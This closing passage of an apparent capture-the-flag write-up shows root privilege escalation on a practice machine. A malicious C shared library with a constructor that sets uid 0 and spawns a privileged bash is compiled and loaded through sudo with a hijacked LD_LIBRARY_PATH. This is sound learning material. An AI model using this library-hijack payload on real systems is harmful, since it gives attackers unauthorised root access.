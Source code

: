 Okay, our target will be `libcrypt.so.1` file - in `/tmp` create a new file called however you want - Mine is `malware.c`
```
$ touch malware.c
$ nano malware.c
```

Then, let's enter malicious script here - I got it from [this blog](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/)

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Then, compile it
```
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/rick/malware.c
```

And lastly - execute that specific command from `sudo -l` results with changing `LD_LIBRARY_PATH` to `/tmp`

So like this
```
$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

# whoami
root
```

Now, we can get root flag
```
# cat /root/root.txt

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

[REDACTED]

```

There is our last flag

And that's it - machine pwned

## Conclusion

I loved this room, really. I've learned a lot

So, I've learned a new PrivEsc technique, session hijacking and a new way to abuse `nfs`

That's it - see you in the next writeups
